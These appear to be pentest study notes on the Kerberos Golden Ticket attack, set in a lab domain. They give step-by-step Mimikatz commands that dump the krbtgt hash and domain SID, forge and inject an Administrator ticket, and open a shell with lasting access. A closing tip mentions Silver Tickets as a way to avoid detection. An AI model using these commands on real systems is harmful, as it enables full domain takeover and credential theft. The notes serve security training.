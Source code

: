When we compromise the krbtgt account (kerberos ticket granting ticket), we own the domain
We can request access to any resource or system on the domain
Golden Ticket == complete access to every machine

Utilized within Mimikatz
	`mimikatz # privilege::debug`   - This will be run everytime in mimikatz.exe
	`mimikatz # lsadump::lsa /inject /name:krbtgt`   This will dump the ntlm hash for the krbtgt account as well as the SID for the domain.  You can keep this in a txt file.
	`mimikatz # kerberos::golden /User:Administrator /domain:PNPT.local /sid:<this is the domains SID> /krbtgt:<NTLM hash for krbtgt account> /id:500 /ptt`
		The user does not have to be a real user.  `/id:500` is the RID.  `/ptt` is pass the ticket.  Once this is run you should get a message stating the ticket was successfully created.
	`mimikatz # misc::cmd`    This should open a command line window utilizing the session with the golden ticket we just created.  At this point, you can even download psexec.exe and run it on the device, you have complete control.  You also have persistance since you have a golden ticket.

  

Also look into "Silver Tickets" since golden tickets are starting to get picked up.